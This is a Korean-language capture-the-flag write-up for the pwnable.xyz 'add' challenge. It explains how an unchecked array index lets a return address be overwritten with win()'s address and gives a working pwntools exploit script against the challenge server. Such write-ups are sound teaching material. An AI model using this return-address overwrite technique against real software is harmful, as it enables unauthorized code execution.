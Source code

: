 ```yaml
---
title: "[pwnable.xyz]add"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
published : false
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-78h]
  __int64 v5; // [rsp+10h] [rbp-70h]
  __int64 v6; // [rsp+18h] [rbp-68h]
  __int64 v7[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 v8; // [rsp+78h] [rbp-8h]
 
  v8 = __readfsqword(0x28u);
  setup();
  while ( 1 )
  {
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    memset(v7, 0, 80uLL);
    printf("Input: ", argv, v7);
    if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
      break;
    v7[v6] = v4 + v5;
    argv = v7[v6];
    printf("Result: %ld", argv);
  }
  result = 0;
  __readfsqword(40u);
  return result;
}
```

v7에서 OOB가 일어난다. 

v7의 v6 인덱스에 v4+v5한 값을 넣어주는데 여기서 취약점이 터진다. 

v4+v5로 리턴할 위치 잡아주고 v6로 ret에 맞춰주면 된다. 

v7의 위치가 rbp-0x60이니까 v6의 인덱스 값을 rbp+0x8로 ret위치로 맞춰주면 된다.

근데 __int64니까 한 인덱스당 8바이트 크기만큼 가질것이다. 

0x68 / 8 = 13이니까 v6에는 13값을 넣고 v4 + v5를 win()주소로 바꿔주면 된다. (v4+v5는 %d로 입력받아서 10진수로 넣어주면 된다.

```
mov    rdx,QWORD PTR [rbp-0x70]
mov    QWORD PTR [rbp+rax*8-0x60],rd
```

Input : 1094795585(0x4141414141) 0 13 이렇게 넣고 rbp+rax*8-0x60 이후 리턴(rbp+8)의 위치를 보면 잘 들어간걸 알 수 있다.

![](https://user-images.githubusercontent.com/32904385/72206499-07641f00-34d2-11ea-9283-885e107b6bc0.png)

이제 리턴값도 맞췄겠다 리턴을 해주면 되는데 scanf에서 3이 아니면 break로 빠져나가는 걸 이용하면 된다.

```c
if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 ) break;
```

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30002)
 
p.sendlineafter(': ',str(0x400822) + ' 0  13')
p.sendlineafter(': ','A')
p.interactive()
```

